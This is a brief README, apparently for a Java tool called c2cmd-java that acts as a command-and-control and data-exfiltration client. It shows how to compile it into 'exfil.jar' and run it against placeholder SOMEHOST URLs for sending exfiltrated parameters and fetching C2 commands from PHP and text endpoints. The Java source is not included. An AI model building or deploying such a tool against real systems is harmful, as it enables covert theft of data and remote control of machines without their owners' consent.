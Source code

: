 # c2cmd-java

```Your Urls have to be added to the Java source code.```

To create the jar and run within its own directory:

```
javac c2cmd.java
jar -cvmf exfil.mf exfil.jar *
```
To run it (with your url changes compiled above) 
```
java -jar exfil.jar
```
or run it like
```
java -jar exfil.jar https://SOMEHOST/exfilparams https://SHOMEHOST/exploit/c2/2c.php?get=1 https://SOMEHOST/exploit/c2/c2.txt 2
```
